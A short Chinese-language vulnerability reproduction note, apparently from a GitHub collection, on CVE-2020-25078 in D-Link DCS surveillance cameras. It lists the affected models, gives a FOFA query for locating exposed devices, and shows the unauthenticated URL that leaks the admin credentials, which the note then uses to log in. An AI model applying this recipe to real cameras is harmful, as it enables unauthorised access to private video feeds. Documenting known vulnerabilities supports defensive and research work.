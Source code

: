 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

```
DCS-2530L
DCS-2670L
DCS-4603
DCS-4622
DCS-4701E
DCS-4703E
DCS-4705E
DCS-4802E
DCS-P703
```

## FOFA

```
app="D_Link-DCS-2530L"
```

## 漏洞复现

访问登录页面如下



![](./images/202202162226738.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![](./images/202202162227778.png)

使用泄露的账号密码登陆系统

![](./images/202202162227388.png)
